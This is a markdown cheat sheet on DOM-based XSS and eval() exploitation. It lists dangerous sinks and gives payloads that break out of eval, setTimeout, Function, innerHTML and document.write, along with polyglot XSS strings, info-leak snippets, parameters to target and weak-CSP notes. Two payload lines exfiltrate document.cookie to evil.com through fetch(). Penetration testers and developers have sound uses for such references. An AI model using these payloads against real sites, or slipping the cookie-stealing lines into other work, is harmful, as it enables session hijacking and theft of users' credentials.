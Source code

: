 
# DOM XSS & `eval()` Exploitation Cheat Sheet

## Common Dangerous DOM Sinks

| Sink               | Example Usage                          | Risk Level |
|--------------------|-----------------------------------------|------------|
| `eval()`           | `eval(location.hash.substr(1))`         | 🔥 High     |
| `document.write()` | `document.write(location.search)`       | 🔥 High     |
| `innerHTML`        | `element.innerHTML = location.hash`     | 🔥 High     |
| `setTimeout()`     | `setTimeout(userInput, 1000)`           | 🔥 High     |
| `Function()`       | `new Function(userInput)`               | 🔥 High     |
| `location.href`    | Redirects using unsanitized input       | ⚠ Medium   |

---

## Payloads for `eval()`, `setTimeout()`, `Function()`

Assuming this pattern:

```javascript
eval("var x = '" + userInput + "'");
```

### Breaking Payloads:
```javascript
'); alert(1); //
"); alert(1); //
'); console.log(document.cookie); //
'); fetch('https://evil.com/?cookie=' + document.cookie); //
```

---

## Payloads for `innerHTML`, `document.write()`

```html
<script>
  document.getElementById("output").innerHTML = location.hash.substr(1);
</script>
```

### Test With:
```
#<img src=x onerror=alert(1)>
#<svg/onload=alert(1)>
#<iframe src=javascript:alert(1)>
#<script>alert(1)</script>
```

---

## payloads for `setTimeout()` / `Function()`

```javascript
setTimeout(userInput, 1000);
new Function(userInput);
```

### Payloads:
```javascript
alert(1)
console.log(document.domain)
fetch('https://evil.com/' + document.cookie)
```

---

## Useful JavaScript for Info Leakage

```javascript
alert(document.domain)
alert(document.cookie)
alert(navigator.userAgent)
alert(window.location)
console.dir(window)
```

---

## Common URL Parameters to Target

```
?search=
#hash
?query=
?next=
```

---

## Polyglot XSS Payloads (work in multiple sinks)

```html
"><svg/onload=alert(1)>
"><script>alert(1)</script>
javascript:alert(1)
```

---

## Weak CSP Bypass Notes

If CSP allows `'unsafe-inline'` and `'unsafe-eval'`:

```http
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval'
```

Then:
- Inline JS works
- eval()/setTimeout() are exploitable
- Script injection is very likely possible

---

## Checklist for DOM XSS

- [ ] Check all parameters reflected into the DOM
- [ ] Check `location`, `hash`, `search`, `referrer`
- [ ] Test all major sinks: `eval`, `innerHTML`, `document.write`, `Function`
- [ ] Use polyglot payloads to identify XSS quickly
- [ ] Review JavaScript and CSP headers